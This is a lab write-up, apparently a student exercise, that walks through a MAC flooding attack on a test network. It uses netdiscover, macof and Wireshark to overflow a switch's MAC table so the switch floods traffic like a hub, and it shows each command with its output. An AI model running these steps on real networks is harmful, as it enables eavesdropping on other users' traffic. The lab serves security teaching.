



# MAC flooding

1. Goal
    * Changing the behavior of the switch to the behavior of a hub. (Monitoring all traffic)

2. Used hardware
    * 1 laptop with Kali Linux
    * 2 devices (Client & Server)
    * 1 laptop with Wireshark
    * 1 switch

3. Used software
    * Kali Linux (2020.1)
    * Wireshark 3.2.2

4. Setup

    

5. Getting started
    1. Get an overview of your network. (Kali Linux)
    
    ```
    kali@kali:~# sudo netdiscover
    ```

    ```
    Currently scanning: 192.168.20.0/16   |   Screen View: Unique Hosts                                  
                                                                                                      
    2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                      
    _____________________________________________________________________________
        IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
    -----------------------------------------------------------------------------
    192.168.1.1     00:24:9b:13:3d:74      1        60  Action Star Enterprise Co., Ltd.                                          
    192.168.1.4     00:21:70:af:62:79      1        60  Dell Inc.   
    ```

    The result shows us the client (192.168.1.1) and the server (192.168.1.4).

    2. Start the communication between the client and the server.

    ```
    C:\Users\Student>ping 192.168.1.4 -t

    Pinging 192.168.1.4 with 32 bytes of data:
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    ```
    
    3. Look at the MAC address table of the client.

    ```
    C:\Users\Student>arp -a

    Interface: 192.168.1.1 --- 0xb
        Internet Address      Physical Address      Type
        192.168.1.4           00-21-70-af-62-79     dynamic   
        192.168.1.255         ff-ff-ff-ff-ff-ff     static    
        224.0.0.22            01-00-5e-00-00-16     static    
        224.0.0.251           01-00-5e-00-00-fb     static    
        224.0.0.252           01-00-5e-00-00-fc     static 
    ```

    4. Start Wireshark. (Kali Linux)

    

    The result shows us no ICMP traffic destined for the server (192.168.1.4).

    5. Install macof on Kali Linux. (If necessary)

    ```
    kali@kali:~# sudo apt-get update
    kali@kali:~# sudo apt-get upgrade
    kali@kali:~# sudo apt-get install dsniff
    ```

    6. Check the MAC address table of the switch.

    ```
    Switch#show mac address-table
              Mac Address Table
    -------------------------------------------

    Vlan    Mac Address       Type        Ports
    ----    -----------       --------    -----
    All    0100.0ccc.cccc    STATIC      CPU
    All    0100.0ccc.cccd    STATIC      CPU
    All    0180.c200.0000    STATIC      CPU
    All    0180.c200.0001    STATIC      CPU
    All    0180.c200.0002    STATIC      CPU
    All    0180.c200.0003    STATIC      CPU
    All    0180.c200.0004    STATIC      CPU
    All    0180.c200.0005    STATIC      CPU
    All    0180.c200.0006    STATIC      CPU
    All    0180.c200.0007    STATIC      CPU
    All    0180.c200.0008    STATIC      CPU
    All    0180.c200.0009    STATIC      CPU
    All    0180.c200.000a    STATIC      CPU
    All    0180.c200.000b    STATIC      CPU
    All    0180.c200.000c    STATIC      CPU
    All    0180.c200.000d    STATIC      CPU
    All    0180.c200.000e    STATIC      CPU
    All    0180.c200.000f    STATIC      CPU
    All    0180.c200.0010    STATIC      CPU
    All    ffff.ffff.ffff    STATIC      CPU
      1    0021.70af.6279    DYNAMIC     Gi0/1
      1    0024.9b13.3d74    DYNAMIC     Gi0/4
      1    d067.e556.cac8    DYNAMIC     Gi0/2
      1    ecf4.bb1b.7671    DYNAMIC     Gi0/3
    Total Mac Addresses for this criterion: 24
    Switch#
    ```
    
    6. Launch the attack. (MAC Flooding)

    ```
    kali@kali:~# sudo macof -i eth0
    ```
    
    7. Clear the MAC address table of the switch. (To speed up the result of the attack)

    ```
    Switch#clear mac address-table  
    ```

    8. Stop the attack and check the status of MAC address table.

    ```
    Switch#show mac address-table count

    Mac Entries for Vlan 1:
    ---------------------------
    Dynamic Address Count  : 8170
    Static  Address Count  : 0
    Total Mac Addresses    : 8170

    Total Mac Address Space Available: 0

    Switch# 
    ```
    9. Check Wireshark.

    

    The result shows us ICMP traffic destined for the server (192.168.1.4).

6. Conclusion
    
    It is easy to change the behavior of a switch to the behavior of a hub.